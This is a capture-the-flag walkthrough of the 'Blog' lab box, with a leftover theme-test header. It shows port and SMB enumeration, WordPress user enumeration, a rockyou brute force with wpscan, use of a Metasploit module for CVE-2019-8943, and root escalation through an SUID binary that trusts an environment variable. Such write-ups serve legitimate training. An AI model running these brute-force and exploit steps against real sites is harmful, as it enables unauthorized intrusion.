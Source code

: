 ```yaml
---
title: Test Toc Level - TOC_LEVEL = 6
toc_level: 6
category: Dummy
date: 2019-1-1
---
```


# Objectives

Capture two flags from the box

# Steps

Since the task tells us to add blog.thm to the hosts file let’s do that before we start running anything on it.

# Enumeration

As always lets start with a basic portscan
	
```
Nmap scan report for <IP>
Not shown: 998 closed ports
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have HTTP and SMB open. Let’s check out the SMB share

#SMB

Let’s scan the machine with smbmap to check for available shares
	
```
» smbmap.py -H <IP>
[+] Finding open SMB ports....
[+] Guest SMB session established on <IP>...
[+] IP: <IP>:445 Name: blog.thm
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        BillySMB                                                READ, WRITE     Billy's local SMB Share
        IPC$                                                    NO ACCESS       IPC Service (blog server (Samba, Ubuntu))
```

Let’s try to get the files from the BillySMB share as it’s the one that stands out
	
```
» smbclient //10.10.29.18/BillySMB
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 11 00:52:57 2020
  ..                                  D        0  Tue May 26 19:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Tue May 26 20:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 20:13:45 2020
  check-this.png                      N     3082  Tue May 26 20:13:43 2020

                15413192 blocks of size 1024. 9737512 blocks available
```
If we download the files we don’t see anything obvious. We can check the jpg with stegsolve

```
» steghide extract -sf Alice-White-Rabbit.jpg
Enter passphrase:
wrote extracted data to "rabbit_hole.txt".
» cat rabbit_hole.txt
```
You've found yourself in a rabbit hole, friend.

So since this is a rabbit hole let’s check out the HTTP server
HTTP

http index
When we visit the website we see a basic blog. From the room description we know it’s running wordpress.

With that we can scan it using wpscan (I’ll remove the unnecessary info)

```
» wpscan --url blog.thm -e u
Interesting Finding(s):

[+] WordPress version 5.0 identified (Insecure, released on 2018-12-06).
 | Found By: Rss Generator (Passive Detection)
 |  - http://blog.thm/feed/, <generator>https://wordpress.org/?v=5.0</generator>
 |  - http://blog.thm/comments/feed/, <generator>https://wordpress.org/?v=5.0</generator>

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <========================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

We see the site is using WP version 5.0 and it found two users: kwheel and bjoel.

Room tags are hinting at a CVE (CVE-2019-8943) which is a vulnerability allowing for writing files with arbitrary paths thanks to path traversal in wp_crop_image().
If we read a bit more about this vuln we can find out that it requires a user account. Thankfully we got the two usernames here so let’s try bruteforcing at least one of them.

Since wpscan has a bruteforce feature we can use that.

```
» wpscan --url blog.thm -U kwheel,bjoel -P /opt/wordlists/rockyou.txt --password-attack wp-login -t 64
<RANDOM THINGS>

[SUCCESS] - kwheel / <REDACTED>
```

After around two minutes we succesfully gained a user account which we can now use to gain a shell.

# CVE-2019-8943 - metasploit

Metasploit contains a module that exploits this vulnerability which we can use to gain a shell.
exploit/multi/http/wp_crop_rce

# Shell

Now that we have a shell we can check for other users on the system

```
$ ls /home
bjoel
```

# Privesc

Looking through the system we can’t find a way to get to bjoel but we can see a suid binary that stands out a bit with it being in /usr/sbin

```
$ /usr/sbin/checker
Not an Admin
```
The program prints out a string but doesn’t seem like it does anything else so let’s check it with ghidra.

Ghidra decompiler shows us a program looking something like this (the code below has been cleaned up a bit)

```
int main(void) {
  char *adminEnv = getenv("admin");

  if (adminEnv == (char *)0x0) {
    puts("Not an Admin");
  } else {
    setuid(0);
    system("/bin/bash");
  }

  return 0;
}
```

We can see this program just gets the “admin” env variable and checks if it’s not null so we can easily bypass this by setting it to anything.

```
$ admin=a /usr/sbin/checker
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

Now we can read the root flag, check out the bjoel’s files and find his hidden user flag in /media

Thanks to:
```
    Nameless0ne for creating this room
    you for reading.
    Hope you learned something :)
```
